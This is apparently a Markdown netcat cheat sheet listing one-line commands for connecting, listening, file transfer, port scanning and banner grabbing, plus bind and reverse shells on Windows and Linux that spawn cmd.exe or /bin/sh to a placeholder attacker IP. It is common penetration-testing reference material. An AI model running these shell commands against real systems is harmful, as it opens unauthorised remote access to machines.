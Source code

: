 # Connect to a TCP Port

```sh
nc -nv <IP Address> <Port>
```
# Listen on a TCP Port

```sh
nc -lvp <port>
```
# Connect and receive a HTTP Page

```sh
nc -nv <IP Address> 80
HEAD / HTTP/1.1

```
# Transferring a File
```sh
nc -lvp 4444 >output.txt               # Receiving End
nc -nv <IP Address> < input.txt   # Sending End
```
# Set up a Netcat Bind Shell (Windows)
```
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444           # Connect to the shell
```
# Set up a Netcat Bind Shell (Linux)
```sh
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444           # Connect to the shell
```
# Set up a Netcat Reverse Shell (Windows)
```sh
nc -lvp 443                                             # Attacker listening for connection
nc -nv <IP Address> 443 -e cmd.exe
``` 
# Set up a Netcat Reverse Shell (Linux)
```sh
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

# Netcat as a Port Scanner
```sh
nc -z <IP Address> <Port Range in abc - xyz format>
```
# Netcat as a Banner Grabber
```sh
echo "" | nc -nv -w1 <IP Address> <Ports>
```

